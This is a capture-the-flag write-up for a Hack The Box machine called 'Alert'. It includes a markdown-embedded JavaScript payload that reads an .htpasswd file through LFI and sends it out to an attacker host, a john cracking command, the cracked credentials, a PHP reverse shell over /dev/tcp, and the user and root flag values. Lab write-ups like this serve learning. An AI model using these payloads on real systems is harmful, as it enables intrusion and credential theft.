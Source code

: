 ```yaml
---
sticker: emoji//1f534
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![](Pasted image 20250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](Pasted image 20250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](Pasted image 20250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](Pasted image 20250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](Pasted image 20250110155457.png)

We are able to read `user.txt`:

![](Pasted image 20250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![](Pasted image 20250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![](Pasted image 20250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](Pasted image 20250110161332.png)

```

We got a root shell, let's read flag:

![](Pasted image 20250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

